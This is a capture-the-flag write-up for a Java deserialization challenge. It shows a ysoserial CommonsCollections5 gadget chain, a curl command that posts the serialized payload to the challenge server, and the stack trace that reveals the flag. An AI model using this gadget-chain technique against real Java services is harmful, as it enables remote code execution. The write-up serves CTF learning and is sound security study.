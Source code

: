 # Misc 300

The flag marshal has falsely imprisoned a flag for being a deserial killer. Your mission is simple, break the flag out of the marshal's jail (http://theflagmarshal.us-east-1.elasticbeanstalk.com/). In addition to the bad puns, you seem to have stumbled upon another clue, blueprint.war.

# Analysis

You are given a Java servlet that receives data sent via POST request, deserializes it and converts to a Person object. However, sending the data normally won't get you the flag. You need to find a way around that to get the flag (from the Flag class)

After decompiling the classes and inspecting them, here are the bits of information you need to solve the challenge:
* If there is an error in deserialization, the exception is thrown back to the client
* Flag can be retrieved by an exception thrown from Flag.getFlag().
* So the goal is to send a payload that invokes Flag.getFlag() when deserialized. This is not a simple task.
* To make things tougher for everyone, CustomOIS has been designed to only accept some certain classes in the invocation chain (see [CustomOIS.java](CustomOIS.java))

# Solution

Deserialization vulnerabilities have been used a lot recently in CTFs, however they are mostly in Python (probably due to the fact that many players use Python nowadays). That doesn't mean Java vulnerabilities have not been researched. In fact, there have been many publications about them:
* [OWASP - Deserialization of untrusted data](https://www.owasp.org/index.php/Deserialization_of_untrusted_data)
* [What Do WebLogic, WebSphere, JBoss, Jenkins, OpenNMS, and Your Application Have in Common? This Vulnerability.](https://foxglovesecurity.com/2015/11/06/what-do-weblogic-websphere-jboss-jenkins-opennms-and-your-application-have-in-common-this-vulnerability/)
* [Blind Java Deserialization Vulnerability - Commons Gadgets](https://deadcode.me/blog/2016/09/02/Blind-Java-Deserialization-Commons-Gadgets.html)
* [ysoserial - A proof-of-concept tool for generating payloads that exploit unsafe Java object deserialization.](https://github.com/frohoff/ysoserial)

Now it's clear what to do. Although the description is a bit misleading, [CommonsCollections5](https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/CommonsCollections5.java) can be used to build the gadget chain, something like this (the methods might be wrong, you need some debugging to get it right, but it doesn't matter even the chain in ysoserial comments is wrong too and you don't really need to care):

```
ObjectInputStream.readObject()
  BadAttributeValueExpException.toString()
    TiedMapEntry.toString()
      LazyMap.get()
        ChainedTransformer.transform()
        ConstantTransformer.transform()
        InvokerTransformer.transform()
          Method.invoke()
            Class.getMethod()
        InvokerTransformer.transform()
          Method.invoke()
            Flag.getFlag()
```

Full code to generate the payload: [FlagWriter.java](FlagWriter.java)

Now just send the payload to the server and the flag is thrown in exception:
```
C:\ctf_tools\curl-7.61.1-win64-mingw\bin>curl --data-binary @"MyFlag.bin" http://theflagmarshal.us-east-1.elasticbeanstalk.com/jail
org.apache.commons.collections.FunctorException: InvokerTransformer: The method 'invoke' on 'class java.lang.reflect.Method' threw an exception
        at org.apache.commons.collections.functors.InvokerTransformer.transform(InvokerTransformer.java:132)
        at org.apache.commons.collections.functors.ChainedTransformer.transform(ChainedTransformer.java:122)
        at org.apache.commons.collections.map.LazyMap.get(LazyMap.java:151)
        at org.apache.commons.collections.keyvalue.TiedMapEntry.getValue(TiedMapEntry.java:73)
        at org.apache.commons.collections.keyvalue.TiedMapEntry.toString(TiedMapEntry.java:131)
        at javax.management.BadAttributeValueExpException.readObject(BadAttributeValueExpException.java:86)
        at sun.reflect.GeneratedMethodAccessor24.invoke(Unknown Source)
        at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
        at java.lang.reflect.Method.invoke(Method.java:498)
        at java.io.ObjectStreamClass.invokeReadObject(ObjectStreamClass.java:1170)
        at java.io.ObjectInputStream.readSerialData(ObjectInputStream.java:2177)
        at java.io.ObjectInputStream.readOrdinaryObject(ObjectInputStream.java:2068)
        at java.io.ObjectInputStream.readObject0(ObjectInputStream.java:1572)
        at java.io.ObjectInputStream.readObject(ObjectInputStream.java:430)
        at com.trendmicro.Server.doPost(Server.java:31)
        at javax.servlet.http.HttpServlet.service(HttpServlet.java:661)
        at javax.servlet.http.HttpServlet.service(HttpServlet.java:742)
        at org.apache.catalina.core.ApplicationFilterChain.internalDoFilter(ApplicationFilterChain.java:231)
        at org.apache.catalina.core.ApplicationFilterChain.doFilter(ApplicationFilterChain.java:166)
        at org.apache.tomcat.websocket.server.WsFilter.doFilter(WsFilter.java:52)
        at org.apache.catalina.core.ApplicationFilterChain.internalDoFilter(ApplicationFilterChain.java:193)
        at org.apache.catalina.core.ApplicationFilterChain.doFilter(ApplicationFilterChain.java:166)
        at org.apache.catalina.core.StandardWrapperValve.invoke(StandardWrapperValve.java:198)
        at org.apache.catalina.core.StandardContextValve.invoke(StandardContextValve.java:96)
        at org.apache.catalina.authenticator.AuthenticatorBase.invoke(AuthenticatorBase.java:493)
        at org.apache.catalina.core.StandardHostValve.invoke(StandardHostValve.java:140)
        at org.apache.catalina.valves.ErrorReportValve.invoke(ErrorReportValve.java:81)
        at org.apache.catalina.valves.RemoteIpValve.invoke(RemoteIpValve.java:685)
        at org.apache.catalina.valves.AbstractAccessLogValve.invoke(AbstractAccessLogValve.java:650)
        at org.apache.catalina.core.StandardEngineValve.invoke(StandardEngineValve.java:87)
        at org.apache.catalina.connector.CoyoteAdapter.service(CoyoteAdapter.java:342)
        at org.apache.coyote.http11.Http11Processor.service(Http11Processor.java:800)
        at org.apache.coyote.AbstractProcessorLight.process(AbstractProcessorLight.java:66)
        at org.apache.coyote.AbstractProtocol$ConnectionHandler.process(AbstractProtocol.java:800)
        at org.apache.tomcat.util.net.NioEndpoint$SocketProcessor.doRun(NioEndpoint.java:1471)
        at org.apache.tomcat.util.net.SocketProcessorBase.run(SocketProcessorBase.java:49)
        at java.util.concurrent.ThreadPoolExecutor.runWorker(ThreadPoolExecutor.java:1149)
        at java.util.concurrent.ThreadPoolExecutor$Worker.run(ThreadPoolExecutor.java:624)
        at org.apache.tomcat.util.threads.TaskThread$WrappingRunnable.run(TaskThread.java:61)
        at java.lang.Thread.run(Thread.java:748)
Caused by: java.lang.reflect.InvocationTargetException
        at sun.reflect.GeneratedMethodAccessor27.invoke(Unknown Source)
        at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
        at java.lang.reflect.Method.invoke(Method.java:498)
        at org.apache.commons.collections.functors.InvokerTransformer.transform(InvokerTransformer.java:125)
        ... 39 more
Caused by: java.lang.reflect.InvocationTargetException
        at sun.reflect.GeneratedMethodAccessor26.invoke(Unknown Source)
        at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
        at java.lang.reflect.Method.invoke(Method.java:498)
        ... 43 more
Caused by: java.lang.Exception: TMCTF{15nuck9astTheF1agMarsha12day}
        at com.trendmicro.jail.Flag.getFlag(Flag.java:10)
        ... 46 more
```

**Flag** is **TMCTF{15nuck9astTheF1agMarsha12day}**

